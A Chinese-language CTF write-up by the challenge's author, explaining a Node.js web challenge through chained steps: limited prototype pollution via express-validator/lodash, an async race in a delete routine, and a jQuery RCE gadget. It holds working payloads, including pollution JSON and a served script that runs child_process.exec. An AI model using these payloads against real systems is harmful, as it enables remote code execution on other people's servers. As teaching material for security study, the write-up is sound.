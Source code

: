 ## 前言

这道题原型链污染的考点设计初衷是出题的时候搜寻到了很多基础库的原型链污染漏洞，但是如果直接把基础库的漏洞拿过来写在题目逻辑里太容易被发现了，就想怎么让这个环节更有意思一点，于是就去审了几个依赖于有漏洞的基础组件的上层功能库，找到了`express-validator`这个基于`lodash`的无法控制value的原型链污染。这个限制又让我觉得此前的原型链污染是不是确实太友好了，如果只给有限的污染能力我们是不是也可以做一些有意思的事情呢？基于这些想法，设计了这道题目。

三个js文件对应三个考点：

app.js -> 有限的原型链污染

entity.js -> 异步产生的bug

utils.js -> jQuery.js RCE gadget

下面是简易版wp。详细分析见[这里](./writeup.md)

## 预期解

### #1 原型链污染

通过任意一个POST方式的API发送一个带下面字段的请求，污染crossDomain为空字符串`''`

```
{"\".constructor.prototype[\"crossDomain": "1   "}
```

结果

```javascript
Object.prototype.crossDomain = ''
```

### #2 异步逻辑错误篡改block的type

DataRepository类的D方法会进行blocks的递归删除，

```javascript
	D(id) {
		let di, dt
		for (const index in this.datas) {
			if (this.datas[index].id === id) {
				dt = this.types[index]
				this.types.splice(index, 1)
				di = index
			}
		}
		if (dt === 'url') {
			requests(this.datas[di].block, "DELETE").finally(() => {
				this.datas = this.datas.filter((value) => value.id !== id)
			})
		} else {
			this.datas = this.datas.filter((value) => value.id !== id)
		}
	}
```

但是删除的时候是先pop了`this.types`中的内容，然后把`this.datas`内容的删除放到了一个异步函数`requests`中去。由于异步函数的特性，导致了两个数组的信息存在一个时间差内的不一致，确切的说就是`this.datas`数组在某段时间内比`this.types`长一点。第二个考点就是要抓住这个时间窗口，构造一段数据使得本来是`text`类型的内容，从`this.types`中取出来的类型确实`url`，从而控制`requests`函数的url参数。

具体的构造方式就是在`this.datas`比`this.types`长n个的这个时间段内，先POST 1个`text`类型的数据，内容是我们自己的url，然后POST n个url类型的数据，内容符合要求即可。这时我们第一次POST的`text`类型的url，从`this.types`取出来就是`url`。

### #3 触发jQuery中的RCE Gadget

访问我们上一步POST的那个`text`类型的数据，让题目访问我们自己的url。url指向的返回头和内容如下：

```bash
HTTP/1.1 200 OK
Content-Type: text/javascript; charset=utf-8
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: X-Requested-With, crossDomain
Content-Length: 133

this.constructor.constructor('return process.mainModule.require("child_process").exec("open /System/Applications/Calculator.app")')()
```

成功弹出`calculator！`

<img src="./assets/image-20201020193755595.png" alt="image-20201020193755595" style="zoom:50%;" />

## 非预期

看了下wp，0ops的师傅竟然做到了任意原型链污染（惊

由于手贱加了个json中间件，允许传入object，导致可以污染任意值，payload如下

```
{"block": {"__proto__": {"a": 123}}, "block\"].__proto__[\"a": 123}
```

相当于劫持了value，具体师傅们自己分析啦。

师傅们tql

## 总结

原型链污染漏洞的强大就不必多说了，各位师傅的gadget也是五花八门让小弟学到了很多。我想说的是虽然各种基础库的原型链污染漏洞层出不穷值得关注，但是依赖于基础库的上层模块暴露出来的攻击面也同样值得注意。
